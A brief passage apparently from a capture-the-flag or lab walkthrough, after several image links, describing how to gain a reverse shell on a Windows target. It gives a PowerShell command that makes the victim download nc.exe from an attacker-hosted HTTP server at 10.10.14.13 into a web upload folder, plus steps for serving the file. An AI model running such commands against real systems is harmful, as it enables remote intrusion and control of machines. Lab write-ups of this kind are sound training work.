




reverse shell
An easy way to do that is to have our victim download netcat for windows and execute it remotely to call a shell back to usfirst locate nc.exe and mv it to your working directory and spin up an http server

and have our victim download it
powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.14.13/nc.exe','C:\xampp\htdocs\gym\upload\nc.exe')



